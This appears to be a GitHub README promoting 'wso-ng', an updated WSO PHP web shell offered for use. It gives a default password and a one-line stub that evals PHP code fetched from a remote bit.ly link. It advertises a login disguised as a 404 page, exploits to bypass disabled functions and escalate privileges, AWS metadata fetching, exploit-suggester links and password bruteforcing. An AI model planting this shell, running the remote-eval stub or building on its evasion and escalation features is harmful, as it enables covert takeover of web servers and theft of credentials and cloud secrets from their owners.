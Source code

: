 [![Twitter Follow](https://img.shields.io/twitter/follow/0xbadad?style=social)](https://twitter.com/0xbadad)
# wso-ng
New generation of famous WSO web shell. With perks included
# default password is "root"
![image](https://user-images.githubusercontent.com/1212294/149636180-7af99caf-a6c4-4475-a42d-0bd818cb67b1.png)
![image](https://user-images.githubusercontent.com/1212294/149636349-e580a04e-846f-4240-8b94-644d6e9aca5a.png)

# changes
- can now hook password when loaded via stub 
```
<?php eval(substr(file_get_contents('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3'), 5)); ?>
```
and will use it instead of hardcoded one
- all subfile downloads are now cached in /tmp and zipped
- login page show natural site "404 not found" page. Just type password and press Enter, cuz password field hidden offscreen, but focused already.
- new breadcrumps navigation panel. Must be much more usefull.
- all files\dirs are now highlighted as their edit\view rights
- go to file\path right from breadcrumps field
- **add fastCGI exploit to auto-elevate & bypass disabled functions, when possible**
- **add php add-filter exploit to bypass disabled functions and gain console execution, when possible**
- ajax interaction now is default
- Ctrl+Enter on any field to Save\Run
- added "Fetch AWS metadata" command to bookmarks
- added hotlink to "Linux Exploit Suggester v2" by default.
- added VirusTotal integration, to autocheck IP reputation.
- added https://securitytrails.com integration, to show neighbors on same IP.
- added ip-info integration to show domains on same server
- added reverse ip check, to show real IP, and not local.
- added memory, cores and load average info to top bar.
- click on IP to copy it
- added list of open ports & sockets to *Sec. Info* section. Works ever if no console priveleges available, thru *fsock*.
- added support for phpRedis in *Sec. Info* section.
- reworked "Userful" section. Works thru limits of open basedir now.
- you can touch files right in file list of file manager now.
- fast copy name\path to clipboard by click.
- **neat syntax highlighting everywhere**.
- neat PHP code editing with autoindent support.
- default top1000 password list (https://bit.ly/top1kpass) in "Bruteforce" section. 
